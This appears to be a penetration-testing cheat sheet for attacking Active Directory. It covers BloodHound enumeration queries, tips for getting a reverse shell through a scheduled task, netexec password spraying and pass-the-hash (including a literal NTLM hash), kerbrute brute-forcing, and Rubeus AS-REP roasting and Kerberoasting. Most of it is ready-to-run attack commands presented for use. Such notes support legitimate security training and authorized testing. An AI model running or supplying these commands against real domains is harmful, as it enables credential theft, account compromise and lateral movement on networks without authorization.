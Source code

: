 ```PowerShell
sudo neo4j start
bloodhound
```
- Find all Domain Admins
- Shortest Paths to Domain Admins from Owned Principals
- Find Workstations where Domain Users can RDP
- Find Servers where Domain Users can RDP
- Find Computers where Domain Users are Local Admin

BloodHound Raw Queries
```Cypher
# Show all computers detected
MATCH (m:Computer) RETURN m
# Show all users detected
MATCH (m:User) RETURN m
# Show all active sessions
MATCH p = (c:Computer)-[:HasSession]->(m:User) RETURN p
```

Troubleshooting SharpHound:
- Will NOT work with winrm shell
	- Launching a reverse shell via winrm will not work either
	- Creating a scheduled task (if admin) and having that as a reverse shell WILL work
- Must be able to access Port 389 LDAP; test LDAP connection to DC:
```PowerShell
Test-Connection -ComputerName <DC_IP> -Count 3
ping.exe -n 3 10.10.201.140 # Less likely to be blocked by Defender
```

---
### Spraying Passwords
```PowerShell
net accounts # Obtain account policies info

# This also indicates if user is a local admin on the system
netexec smb 192.168.50.75-80 -u users.txt -p 'Password123!' -d <DOMAIN.com> --continue-on-success --shares --users
netexec smb 192.168.50.75-80 -u users.txt -H <NTLM_HASH> -d <DOMAIN.com> --continue-on-success --shares --users
netexec winrm targets.lst -u users.lst -H 08d7a47a6f9f66b97b1bae4178747494 -d <DOMAIN.com> --continue-on-success

# Attempts to procure a Kerberos TGT
.\kerbrute_windows_amd64.exe passwordspray -d corp.com .\usernames.txt "Password123!"
# Enumerate (validate) users
.\kerbrute_windows_amd64.exe userenum -d corp.com usernames.txt
# Single user brute force
.\kerbrute_windows_amd64.exe bruteuser -d corp.com "jdoe" passwords.txt
# Brute force multiple users, multiple passwords
.\kerbrute_windows_amd64.exe bruteforce -d corp.com usernames.txt passwords.txt
```
---
### Rubeus
```PowerShell
# AS-REP roast. This even handles user enumeration for you
.\Rubeus.exe asreproast /nowrap /outfile:asreproast.hashes

# Kerberoast. This even handles SPN enumeration for you.
.\Rubeus.exe kerberoast /outfile:hashes.kerberoast
```

---

[CLIENTWK220]: PS C:\Users\daveadmin\Documents> whoami
